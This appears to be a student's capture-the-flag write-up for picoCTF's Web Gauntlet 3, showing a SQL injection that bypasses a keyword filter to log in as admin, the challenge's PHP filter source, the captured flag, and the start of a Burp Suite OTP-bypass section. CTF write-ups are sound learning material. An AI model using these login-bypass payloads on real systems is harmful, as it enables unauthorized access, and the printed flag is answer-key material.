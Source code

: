 in this challenge i was again supposed to work with the filters and sql technique to overcome the challenge

**to be honest i used the same techinwue i did for webgautlet 2 challenge**
```
Filters: or and true false union like = > < ; -- /* */ admin
```
```
SELECT username, password FROM users WHERE username='ad'||'min' AND password='pass'
```
so i tried doing some thing better 1' is '1 but didnt work i tried i tried this phrase
```
SELECT username, password FROM users WHERE username='ad'||'min' AND password='' is not '0'
```
 reason for this to work ' ' is not equal to string '0'
 so we get true in password section and it works
 ```
 <?php
session_start();

if (!isset($_SESSION["winner3"])) {
    $_SESSION["winner3"] = 0;
}
$win = $_SESSION["winner3"];
$view = ($_SERVER["PHP_SELF"] == "/filter.php");

if ($win === 0) {
    $filter = array("or", "and", "true", "false", "union", "like", "=", ">", "<", ";", "--", "/*", "*/", "admin");
    if ($view) {
        echo "Filters: ".implode(" ", $filter)."<br/>";
    }
} else if ($win === 1) {
    if ($view) {
        highlight_file("filter.php");
    }
    $_SESSION["winner3"] = 0;        // <- Don't refresh!
} else {
    $_SESSION["winner3"] = 0;
}

// picoCTF{k3ep_1t_sh0rt_6fdd78c92c7f26a10acd3ece176dea4d}
?>
```
and the flag is **picoCTF{k3ep_1t_sh0rt_6fdd78c92c7f26a10acd3ece176dea4d}**

## IntroToBuro

in this challenge we get chance to solve the otp bypassusing burp suite


Open BurpSuite and the proxy web browser with the link provided in the challenge description: http://titan.picoctf.net:49297/
